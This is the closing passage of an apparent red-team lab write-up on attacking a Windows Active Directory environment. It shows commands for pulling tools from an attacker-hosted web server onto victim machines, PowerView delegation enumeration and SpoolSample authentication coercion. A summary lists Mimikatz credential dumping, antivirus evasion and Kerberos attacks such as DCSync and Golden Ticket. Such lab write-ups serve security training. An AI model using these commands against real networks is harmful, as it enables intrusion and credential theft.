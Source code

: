 Transferred tools using built-in servers and clients:
```
On attacker machine

python3 -m http.server 8000
On Windows victim

Invoke-WebRequest -Uri "http://YOUR-IP:8000/mytool.exe" -OutFile "C:\Temp\mytool.exe"
On Linux victim

wget http://YOUR-IP:8000/mytool
curl -o mytool http://YOUR-IP:8000/mytool
```
---
## 5. Additional AD and Lateral Techniques
```
Get-NetComputer -Unconstrained -Properties Name, DNSHostName, SamAccountName, OperatingSystem # Find unconstrained delegation

.\SpoolSample\SpoolSample.exe corpdc.corp.thereserve.loc server1.corp.thereserve.loc # Machine authentication coercion

whoami /groups
whoami /priv
```
---
## 6. Useful Administrative and Verification Commands
```
net user [username] /domain
net group "Help Desk" /domain

shutdown /r
curl ipinfo.io
```
---
## Summary

This writeup covers the full lifecycle of the Capstone Red Team attack on a Windows Active Directory environment:

- Network and service enumeration
- Initial access via VPN and RDP
- Privilege escalation abusing misconfigured scheduled tasks
- Defender and AV evasion using PowerShell
- Persistence through user account creation
- Advanced AD enumeration with PowerView and SharpHound
- Credential dumping with Mimikatz
- Kerberos attacks (Kerberoasting, DCSync, Golden Ticket)
- Lateral movement and domain dominance techniques

---
